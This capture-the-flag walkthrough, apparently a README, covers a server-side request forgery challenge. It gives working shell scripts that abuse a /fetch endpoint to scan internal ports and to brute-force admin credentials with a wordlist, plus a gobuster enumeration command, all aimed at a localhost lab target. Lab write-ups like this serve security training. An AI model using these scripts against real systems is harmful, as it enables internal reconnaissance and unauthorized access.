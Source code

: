 # SSRF CTF Walkthrough

## Challenge Description
**This website is currently under construction but can reach other internal webservices on the same host, are you able to find the flag?**  


## Walkthrough  


Reach the website landing page:  
![landing-page](./images/landing_page.png)  

Launch a fuzzer/bruteforcer tool like [*gobuster*](https://github.com/OJ/gobuster) to identify website's endpoints:  
```sh
gobuster dir -k -t 2 -u http://localhost  -w /usr/share/wordlists/dirb/big.txt -b 404,401
```  

Gobuster identifies the "fetch" endpoint:  

![fetch](./images/fetch.png)  

Go to that url and inspect the error message:  
![no_url_error](./images/no_url_error.png)  

Try to submit the url parameter:  
![invalid_url_error](./images/invalid_url_error.png)  


Submit an url with the correct schema:  
![correct_url](./images/correct_url.png)  

You know from the challenge description that the website can reach other webservices on the same host, try a random port:  
![no_connection](./images/no_connection.png)  

Unfortunately no luck, you need to create an automation to scan all the ports, for example the following script:  
```sh
#!/bin/bash

# Base URL for the public-facing service
base_url="http://localhost/fetch?url="

# Targeting localhost within the container
internal_host="http://localhost"

# Range of ports to brute force (you can adjust this range)
start_port=1000
end_port=30000

# Loop through the port range and make a request to each one
for port in $(seq $start_port $end_port); do
    target_url="${internal_host}:${port}"
    full_url="${base_url}${target_url}"
    
    # Make a request to the /fetch endpoint and store the result
    response=$(curl -s "$full_url")

    # Check if the response contains content and does not have error messages
    if [ -n "$response" ] && [ "$(echo "$response" | grep -c '"status":"success"')" -eq 1 ]; then
        echo "Port $port responded: $response"
    fi
done
```  

With the previous script you get 2/3 of the flag!  
![partial-flag](./images/partial_flag.png)  

Unfortunately, the last service required authentication.  
The message you received from the service tells you that you need to authenticate as admin.  

At this point you can try bruteforcing the admin credentials for the last service.  
You can use your favourite brute-force tool or implement a custom script like the following:  
```sh
#!/bin/sh

# Path to the wordlist
WORDLIST="/usr/share/wordlists/rockyou.txt"
# URL for the fetch endpoint
BASE_URL="http://localhost:80/fetch?url=http://admin:"

# Loop through each password in the wordlist
while IFS= read -r password; do
    # Check if the password contains spaces (ignore it)
    if echo "$password" | grep -q ' '; then
        continue
    fi

    # Construct the full URL
    FULL_URL="${BASE_URL}${password}@localhost:21074/"

    # Make the curl request and capture the response
    response=$(curl -s "$FULL_URL")

    # Check if the response is not the unauthorized message
    if [ "$response" != '{"content":"Unauthorized, you need to authenticate as admin","status":"success"}' ]; then
        echo "Success with password: $password"
        echo "Response: $response"
        exit 0  # Exit the script if a valid password is found
    fi
done < "$WORDLIST"

echo "No valid passwords found in $WORDLIST."

```  


And with this you find the last part of the flag!  
![final-flag-part](./images/final_flag_part.png)  










